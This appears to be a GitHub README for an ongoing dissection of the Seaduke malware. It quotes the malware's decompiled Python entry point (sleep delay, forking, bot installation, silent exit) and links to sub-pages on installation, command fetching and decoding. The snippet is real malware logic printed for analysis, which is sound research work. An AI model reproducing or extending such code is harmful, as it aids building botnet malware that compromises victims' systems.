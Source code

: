 # what is this?
an ongoing dissection of [seaduke malware](https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L2211)

# what happens when you execute?
```python
if __name__=="__main__":
    time_sleep(botKlass.run_delay)
    if not botKlass.was_first_run:
        botKlass.was_first_run=True
    if v_sys_platform!='win32':
        forkmeiamfamous()
    me=BotInstallKlass(botKlass.key_id)

    try:
        seh_wrapper()
    except SystemExit:
        me=None
        time_sleep(1)
        sys_exit(0)
    except Exception as e:
        me=None
        time_sleep(1)
        sys_exit(0)
```

* [installing botKlass](https://github.com/mynameisvinn/Seaduke/blob/master/install.md)
* [seh_wrapper](https://github.com/mynameisvinn/Seaduke/blob/master/sehwrapper.md)
* [how does seaduke fetch instructions from the mothership?](https://github.com/mynameisvinn/Seaduke/blob/master/fetch.md)
* [decode](https://github.com/mynameisvinn/Seaduke/blob/master/decode.md)